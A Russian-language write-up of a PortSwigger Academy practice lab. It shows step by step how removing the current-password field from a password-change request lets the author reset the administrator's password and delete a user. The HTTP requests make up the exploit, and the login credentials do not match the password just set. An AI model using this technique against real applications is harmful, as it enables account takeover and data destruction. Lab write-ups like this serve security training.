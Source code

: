 Авторизуемся под данным нам пользователем `wiener:peter`
![img](https://github.com/adyatlove/PortSwiggerAcademy/blob/main/5.%20Business%20logic%20vulnerabilities/8.%20Weak%20isolation%20on%20dual-use%20endpoint/pics%20for%20walktrough/1.png)

И пройдем полную процедуру по смене пароля. Далее перейдем в `Proxy` -> `HTTP history`, и найдем непосредственно тот самый `POST` запрос и отправим его в `Repeater`, который отправляется при смене пароля
```
POST /my-account/change-password
...
csrf=Xqd5RKVFZCaTCZOBkBz43OLGU1H1oknE&username=wiener&current-password=peter&new-password-1=peter1&new-password-2=peter1
```
![img](https://github.com/adyatlove/PortSwiggerAcademy/blob/main/5.%20Business%20logic%20vulnerabilities/8.%20Weak%20isolation%20on%20dual-use%20endpoint/pics%20for%20walktrough/2.png)
Увидим, что в запросе имеется параметр `current-password=peter`. Попробуем его удалить, и посмотреть, что вернет веб-сервер в ответ
```
POST /my-account/change-password
...
csrf=Xqd5RKVFZCaTCZOBkBz43OLGU1H1oknE&username=wiener&new-password-1=peter2&new-password-2=peter2
```
![img](https://github.com/adyatlove/PortSwiggerAcademy/blob/main/5.%20Business%20logic%20vulnerabilities/8.%20Weak%20isolation%20on%20dual-use%20endpoint/pics%20for%20walktrough/3.png)
Отлично, веб-сервер запрос принял и обработал. Соответвенно, мы можем устанавливать свой пароль для любого пользователя вышеописанным способом. Установим свой пароль для `username=administrator`

```
POST /my-account/change-password
...
csrf=Xqd5RKVFZCaTCZOBkBz43OLGU1H1oknE&username=administrator&new-password-1=peter2&new-password-2=peter2
```
![img](https://github.com/adyatlove/PortSwiggerAcademy/blob/main/5.%20Business%20logic%20vulnerabilities/8.%20Weak%20isolation%20on%20dual-use%20endpoint/pics%20for%20walktrough/4.png)
Авторизуемся под `administrator:1q2w3e4r5t`
![img](https://github.com/adyatlove/PortSwiggerAcademy/blob/main/5.%20Business%20logic%20vulnerabilities/8.%20Weak%20isolation%20on%20dual-use%20endpoint/pics%20for%20walktrough/5.png)
Зайдем в `Admin panel` и удалим пользователя `carlos`
![img](https://github.com/adyatlove/PortSwiggerAcademy/blob/main/5.%20Business%20logic%20vulnerabilities/8.%20Weak%20isolation%20on%20dual-use%20endpoint/pics%20for%20walktrough/6.png)
На что получим `User deleted successfully!` и выполненную лабораторную работу

